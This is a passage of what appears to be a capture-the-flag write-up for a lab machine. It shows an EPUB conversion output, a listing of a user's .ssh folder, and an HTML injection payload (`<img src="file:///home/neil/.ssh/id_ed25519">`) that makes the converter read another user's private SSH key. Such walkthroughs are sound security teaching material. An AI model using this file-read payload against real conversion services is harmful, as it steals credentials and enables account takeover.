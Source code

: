 ```
┌──(kali㉿kali)-[~/Downloads]
└─$ unzip convert.epub
Archive:  convert.epub
 extracting: mimetype                
   creating: META-INF/
  inflating: META-INF/container.xml  
  inflating: toc.ncx                 
  inflating: index.html              
  inflating: stylesheet.css          
  inflating: page_styles.css         
  inflating: titlepage.xhtml         
  inflating: cover_image.jpg         
  inflating: content.opf    
  ```



```
┌──(kali㉿kali)-[~/Downloads]
└─$ cat index.html     
<?xml version='1.0' encoding='utf-8'?>
<html xmlns="http://www.w3.org/1999/xhtml">
  <head>
    <title>a64a2ae5-ff70-43de-b64d-6b60d0c79c30</title>
    <meta http-equiv="Content-Type" content="text/html; charset=utf-8"/>
  <link rel="stylesheet" type="text/css" href="stylesheet.css"/>
<link rel="stylesheet" type="text/css" href="page_styles.css"/>
</head>
  <body class="calibre">
<p class="calibre1">converted text file</p>
</body></html>
```

This means we can likely read files as the neil user . So we tried using `img src` tag to capture priv8 keys .


```
frank@bookworm:/home/neil$ ls ../frank/.ssh
id_ed25519  id_ed25519.pub
```
Frank user used `id_ed25519` this name file a priv8 key maybe neil user is same we'll try


Go to repeater and change `test.txt` to `test.html` and change the file contains like this

`<img src="file:///home/neil/.ssh/id_ed25519">`
